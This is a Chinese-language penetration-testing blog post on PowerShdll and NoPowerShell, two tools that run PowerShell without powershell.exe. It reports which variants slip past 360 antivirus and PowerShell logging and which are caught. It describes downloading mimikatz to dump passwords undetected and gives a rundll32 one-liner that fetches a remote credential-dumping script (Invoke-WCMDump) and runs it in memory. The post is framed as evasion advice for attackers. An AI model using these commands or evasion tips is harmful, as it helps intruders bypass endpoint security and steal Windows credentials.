 PowerShdll

这个工具主要使用dll去运行powershell而不需要去连接powershell.exe,所以具有一定的bypass\*\*能力，当然它也可以在这几个程序下运行rundll32.exe, installutil.exe, regsvcs.exe, regasm.exe, regsv\*\*\*.exe或者使用作者给出的单独的exe进行执行

下载地址：

[https://github.com/p3nt4/PowerShdll.git](https://github.com/p3nt4/PowerShdll.git)

exe版使用方法：

使用PowerShdll -i进入到交互模式，此时便获得了一个交互式的PS环境，可执行任意的powershell命令，整个过程360无拦截

![v2-0ae862b686a3088aaa82373936e1cd65\_hd.j](https://pic3.zhimg.com/80/v2-0ae862b686a3088aaa82373936e1cd65\_hd.jpg)

下载mimikatz抓取密码，360全程无反应...

![v2-355a8fd9d022cc77bd05b81229fec460\_hd.j](https://pic4.zhimg.com/80/v2-355a8fd9d022cc77bd05b81229fec460\_hd.jpg)

在交互式模式下唯一要注意的就是，你输入的内容不能过长，否则会出现问题，原因未可知....

我们再来看一下dll版的用法..

```bash
rundll32 PowerShdll.dll,main . { iwr -useb https://raw.githubusercontent.com/peewpw/Invoke-WCMDump/master/Invoke-WCMDump.ps1 } ^| iex;
```

这次没有那么好运了，直接被360杀了

![v2-ff8e0c8659f2c9a0d46f6f0984d4373d\_hd.j](https://pic1.zhimg.com/80/v2-ff8e0c8659f2c9a0d46f6f0984d4373d\_hd.jpg)

Nopowershell

NoPowerShell是用C＃实现的工具，它支持执行类似PowerShell的命令，同时对任何PowerShell日志记录机制都不可见。同时也提供了CS下的cna脚本。

优点：

* 执行隐秘
* 功能强大
* 扩展简单
* 即使不熟悉PS命令也可以使用cmd命令来代替PS命令，例如(使用ping来代替Test-NetConnection)

下载地址：

[https://github.com/bitsadmin/nopowershell.git](https://github.com/bitsadmin/nopowershell.git)

我们来看一下它的用法：

直接运行便会输出它的版本和支持的命令

![v2-5bb8d41f49533681621c9711396dafe9\_hd.j](https://pic3.zhimg.com/80/v2-5bb8d41f49533681621c9711396dafe9\_hd.jpg)

过程360无拦截

而dll版被秒杀..

![v2-d8d4c0af1e654a5cc404733d04a88b19\_hd.j](https://pic1.zhimg.com/80/v2-d8d4c0af1e654a5cc404733d04a88b19\_hd.jpg)

cs下稳定..
